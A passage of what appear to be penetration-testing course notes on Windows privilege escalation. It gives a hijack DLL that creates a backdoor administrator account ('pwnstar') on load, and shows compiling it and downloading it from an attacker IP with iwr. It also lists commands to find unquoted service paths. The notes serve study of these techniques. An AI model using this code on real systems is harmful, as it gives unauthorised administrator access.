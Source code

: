 ```C++
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user pwnstar password123! /add");
  	    i = system ("net localgroup administrators pwnstar /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Added `include` statements and system function calls to create a new user and add them to the `administrators` group
#### Compile the code
```Shell
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```
#### Download onto the target machine, ensuring it ends up in the folder that is searched first
```PowerShell
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
```
#### Restart the Service to execute the DLL
```PowerShell
Restart-Service BetaService
```
#### Check to see that the user was added to the computer and administrators group
```PowerShell
net user
```

```PowerShell
net localgroup administrators
```
### 16.2.3. Unquoted Service Paths
#### List services with binary path
```PowerShell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
#### List of services with spaces and missing quotes in the binary path
```PowerShell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
#### See if you can start and stop the service, then keep it stopped
```PowerShell
Start-Service GammaService
```
